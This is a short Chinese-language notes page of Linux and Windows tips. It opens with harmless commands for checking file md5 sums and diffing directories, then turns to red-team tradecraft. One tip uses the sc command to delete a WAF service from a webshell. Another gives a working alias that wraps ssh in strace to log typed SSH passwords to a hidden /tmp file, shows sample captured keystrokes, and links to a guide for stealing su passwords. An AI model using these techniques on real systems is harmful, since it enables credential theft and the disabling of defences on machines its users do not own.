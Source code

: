 - Linux下批量校验文件md5值(find+diff)：

  ```
  1、生成某个目录文件的md5值，以/sbin为例
  find /sbin -type f | xargs  md5sum > sbin.md5
  2、对比时候再次用这条命令生成md5值，然后用diff命令进行对比
  [root@test ~]# find /sbin -type f | xargs  md5sum > sbin2.md5
  [root@test ~]# diff sbin.md5 sbin2.md5
  206c206
  < d4d94e25f3f600d17aab0ce82505209d  /sbin/dmeventd
  —
  > a4d94e25f3f600d17aab0ce82505xmnd  /sbin/dmeventd
  ```

- Linux比较两个目录下所有文件是否有区别：

  ```
  diff -ruNa file1 file2 > file12.diff
  ```

- Windows下在webshell中发现有waf服务，若有高权限，可以使用 **sc** 命令删除waf服务，然后重启即可。

- strace常用来跟踪进程执行时的系统调用和所接收的信号。在内部的红蓝对抗实战中，可以利用strace特性可以窃取ssh口令。可以监控所有从服务器ssh连接出去的用户口令：

  ```
  alias ssh='strace -o /tmp/.sshpwd-`date +%d%h%m%s`.log -e read -s2048 ssh'
  ➜  /tmp cat .sshpwd-1710月101539764978.log |grep "read(4"
  read(4, "y", 1)                         = 1
  read(4, "e", 1)                         = 1
  read(4, "s", 1)                         = 1
  read(4, "\n", 1)                        = 1
  read(4, "/", 1)                         = 1
  read(4, "/", 1)                         = 1
  read(4, "\n", 1)                        = 1
  read(4, "w", 16384)                     = 1
  read(4, "h", 16384)                     = 1
  read(4, "o", 16384)                     = 1
  read(4, "a", 16384)                     = 1
  read(4, "m", 16384)                     = 1
  read(4, "i", 16384)                     = 1
  read(4, "\r", 16384)                    = 1
  read(4, "e", 16384)                     = 1
  read(4, "x", 16384)                     = 1
  read(4, "i", 16384)                     = 1
  read(4, "t", 16384)                     = 1
  read(4, "\r", 16384)                    = 1
  ```

  窃取su口令，参考：[https://xz.aliyun.com/t/2917](https://xz.aliyun.com/t/2917)

